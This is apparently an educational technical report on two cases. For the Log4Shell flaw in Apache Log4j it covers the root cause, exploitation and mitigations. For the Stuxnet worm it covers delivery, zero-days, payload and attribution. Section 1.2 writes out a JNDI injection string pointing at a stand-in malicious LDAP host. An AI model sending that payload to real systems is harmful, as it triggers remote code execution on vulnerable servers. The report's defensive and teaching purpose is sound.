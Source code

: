 
# Technical Reports on Log4j Vulnerability and Stuxnet Malware

## **1. Log4j Vulnerability (CVE-2021-44228) — "Log4Shell"**

### **1.1 Overview**
- **Type:** Remote Code Execution (RCE) vulnerability.
- **Affected Component:** Apache Log4j 2.x (Java-based logging library).
- **CVE ID:** CVE-2021-44228.
- **Severity:** Critical (CVSS score 10.0).
- **Date Discovered:** Publicly disclosed on December 9, 2021.
- **Impact:** Allows attackers to execute arbitrary code on vulnerable servers.

### **1.2 Technical Details**
- **Root Cause:** Log4j automatically resolves JNDI lookups in log messages without sanitization.
- **Exploit Process:**
  1. Attacker sends a specially crafted string like:
     ```
     ${jndi:ldap://malicious.com/a}
     ```
  2. Log4j interprets the string, performing a JNDI lookup to an attacker-controlled server.
  3. Malicious Java bytecode is returned and executed, granting full control to the attacker.
- **Affected Versions:** Log4j 2.0-beta9 to 2.14.1.

### **1.3 Exploitation**
- Attackers scan the internet for vulnerable servers.
- Can be exploited via HTTP headers, form fields, or any input logged by the application.
- Used to deploy cryptominers, ransomware, and establish persistent backdoors.

### **1.4 Mitigation**
1. Upgrade to Log4j 2.16.0 or later (JNDI disabled by default).
2. For older versions, set the system property:
   ```
   log4j2.formatMsgNoLookups=true
   ```
3. Apply Web Application Firewall (WAF) rules to block JNDI patterns.

### **1.5 Impact Examples**
- Minecraft servers were targeted within hours of disclosure.
- Several enterprise systems (e.g., VMware Horizon) exploited in ransomware campaigns.

---

## **2. Stuxnet Malware**

### **2.1 Overview**
- **Type:** Worm, advanced persistent threat (APT).
- **First Detected:** June 2010.
- **Target:** Industrial Control Systems (ICS), specifically Siemens Step7 PLCs.
- **Notable For:** First publicly known cyberweapon designed to cause physical destruction.

### **2.2 Technical Details**
- **Delivery Method:**
  - Initially spread via infected USB drives (air-gapped networks targeted).
  - Used multiple Windows zero-day exploits for propagation.
- **Core Functions:**
  - Once inside the target network, Stuxnet looked for Siemens Step7 software controlling PLCs.
  - Reprogrammed PLCs to alter the speed of uranium enrichment centrifuges while reporting normal readings to operators.
- **Zero-day Exploits Used:**
  1. LNK vulnerability (CVE-2010-2568).
  2. Win32k.sys privilege escalation (CVE-2010-2743).
  3. Print Spooler vulnerability (CVE-2010-2729).
  4. Shared Folders vulnerability (CVE-2010-2725).

### **2.3 Payload Mechanics**
- Stuxnet replaced legitimate PLC code with malicious logic.
- Caused centrifuges to spin at unsafe speeds intermittently, leading to physical wear and destruction.
- Used rootkit functionality to hide malicious PLC code from engineering workstations.

### **2.4 Attribution**
- Widely believed to be a joint operation between the United States and Israel (Operation Olympic Games).
- Designed to sabotage Iran’s Natanz nuclear facility.

### **2.5 Mitigation & Lessons Learned**
1. Isolate ICS networks from external connections.
2. Restrict use of removable media in sensitive networks.
3. Keep systems and ICS software patched.
4. Implement strict network monitoring for anomalous ICS traffic.

### **2.6 Impact**
- Destroyed ~1,000 centrifuges at Natanz.
- Demonstrated the potential for cyberweapons to cause real-world physical damage.
- Changed global cybersecurity policy around protecting critical infrastructure.

---

## **3. Conclusion**
- **Log4j** represents a widespread software supply chain risk: a small library with a critical flaw can expose countless systems.
- **Stuxnet** represents a targeted, nation-state cyberweapon with strategic geopolitical objectives.
- Both cases underscore the need for proactive patching, network segmentation, and comprehensive incident response planning.

**Disclaimer:** This report is for educational purposes only and based on publicly available information.

